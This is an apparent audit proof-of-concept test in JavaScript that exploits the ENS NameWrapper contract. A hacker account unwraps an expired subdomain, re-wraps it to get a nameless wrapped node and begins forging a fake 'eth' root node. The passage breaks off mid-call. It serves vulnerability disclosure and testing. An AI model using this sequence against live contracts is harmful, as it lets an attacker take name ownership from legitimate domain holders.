 ```javascript=
      // signed a submomain for the hacker, with a soon-expired expiry
      const sub1Label = 'sub1'
      const sub1LabelHash = labelhash(sub1Label)
      const sub1Domain = sub1Label + '.' + label + '.eth'  // sub1.base.eth
      const wrappedSub1TokenId = namehash(sub1Domain)
      const block = await provider.getBlock(await provider.getBlockNumber())
      await NameWrapperH.setSubnodeOwner(
        wrappedTokenId,
        sub1Label,
        hacker,
        PARENT_CANNOT_CONTROL | CANNOT_UNWRAP,
        block.timestamp + 3600 // soonly expired
      )
      expect(await EnsRegistry.owner(wrappedSub1TokenId)).to.equal(
          NameWrapper.address
      )
      expect(await NameWrapper.ownerOf(wrappedSub1TokenId)).to.equal(hacker)
      expect(
          (await NameWrapper.getFuses(wrappedSub1TokenId))[0]
      ).to.equal(PARENT_CANNOT_CONTROL | CANNOT_UNWRAP)

      // the hacker unwraps his wrappedSubTokenId
      await evm.advanceTime(7200)
      await NameWrapperH.unwrap(wrappedTokenId, sub1LabelHash, hacker)
      expect(await EnsRegistry.owner(wrappedSub1TokenId)).to.equal(hacker)

      // the hacker setSubnodeOwner, to set the owner of wrappedSub2TokenId as NameWrapper
      const sub2Label = 'sub2'
      const sub2LabelHash = labelhash(sub2Label)
      const sub2Domain = sub2Label + '.' + sub1Domain // sub2.sub1.base.eth
      const wrappedSub2TokenId = namehash(sub2Domain)
      await EnsRegistryH.setSubnodeOwner(
          wrappedSub1TokenId,
          sub2LabelHash,
          NameWrapper.address
      )
      expect(await EnsRegistry.owner(wrappedSub2TokenId)).to.equal(
          NameWrapper.address
      )

      // the hacker re-wraps the sub1node
      await EnsRegistryH.setApprovalForAll(NameWrapper.address, true)
      await NameWrapperH.wrap(encodeName(sub1Domain), hacker, EMPTY_ADDRESS)
      expect(await NameWrapper.ownerOf(wrappedSub1TokenId)).to.equal(hacker)

      // the hackers setSubnodeOwner
      // XXX: till now, the hacker gets sub2Domain with no name in Namewrapper
      await NameWrapperH.setSubnodeOwner(
        wrappedSub1TokenId,
        sub2Label,
        hacker,
        PARENT_CANNOT_CONTROL | CANNOT_UNWRAP,
        MAX_EXPIRY
      )
      expect(await NameWrapper.ownerOf(wrappedSub2TokenId)).to.equal(hacker)
      expect(await NameWrapper.names(wrappedSub2TokenId)).to.equal('0x')

      // the hacker forge a fake root node
      const sub3Label = 'eth'
      const sub3LabelHash = labelhash(sub3Label)
      const sub3Domain = sub3Label + '.' + sub2Domain // eth.sub2.sub1.base.eth
      const wrappedSub3TokenId = namehash(sub3Domain)
      await NameWrapperH.setSubnodeOwner(
```